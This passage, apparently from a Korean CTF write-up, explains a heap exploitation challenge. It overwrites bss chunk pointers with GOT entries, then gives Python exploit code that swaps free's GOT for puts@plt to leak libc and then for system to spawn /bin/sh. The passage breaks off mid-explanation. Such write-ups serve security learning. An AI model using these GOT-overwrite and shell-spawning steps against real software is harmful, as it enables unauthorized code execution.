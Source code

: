     그럼 우린 small secret부분에 적힌 0x6020b8을 통하여 해당 bss자리를 마음대로 다룰 수 있게 되었다. 
    
    처음에 alloc으로 하다가 calloc & 주소도 다시 덮어짐 이슈로 인해 renew를 이용하여 overwrite를 진행하였는데, 여기서 궁금한 점은
    
    <aside>
    ❓ fastbin 이외는 size check가 없나?
    
    </aside>
    
    처음에 이래서 할당을 새로해주어야 하나 고민을 했었는데 그냥 renew를 해주면 되긴 했었다.
    
    일단 각각의 청크 주소가 적히는 부분에다가 함수들의 got를 적어주었다. 쓰임은 차차 알아보도록 하자.
    
    그 다음, 밑에 존재하는 000..1…0.. 들은 flag이 저장되는 부분들이며, 이들을 1로 덮어씌워 할당을 하지 않아도 renew를 통해 항상 쓸 수 있도록, 또한 free가 가능하도록 만들어주었다.
    
    ![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/57749aec-4422-4d95-b493-aa606e04dfbb/2d9bb3ae-7624-4320-a0f8-f5f93b5d498d/Untitled.png)
    
    쨘 
    
    그럼 예쁘게 잘 적힌다.
    
- libc leak & exploit
    
    ```python
    renew(1, p64(puts_plt)) # free got /<-/ puts_plt 
    delete(2) # free start
    
    leak = u64(p.recvuntil("\x7f")[-6:] + "\x00\x00")
    libc_base = leak - libc.symbols["atoi"]
    system = libc_base + libc.symbols["system"]
    
    renew(1, p64(system)) # free got /<-/ system
    alloc(2, '/bin/sh\x00')
    delete(2) #-> not perfect execute.... Try it yourself
    ```
    
    코드를 한 줄씩 살펴보자. 중요한 부분이다.
    
    ```python
    renew(1, p64(puts_plt)) # free got /<-/ puts_plt 
    delete(2) # free start
    ```
    
    free got안에 puts plt를 적어주는 과정이다.
    
    일단, 우리는 system주소를 활용하기 위해서 libc leak이 필요한데, 이를 위해서 필요한 것은
    
    1. puts 실행
    2. got 인자 주기
    
    두 과정이 필요하다.
    
    puts 함수의 got로 free got를 덮어버리면, 그냥 puts 만! 실행이 된다. 그럼 무슨 의미가 있겠는가.
    
    때문에 우선 small 부분에서 got overwrite를 일으켜 준다.
    
    그 후, big부분을 free 시켜줄 것이다.
    
    이때 프로그램은 이러한 과정을 거친다.
    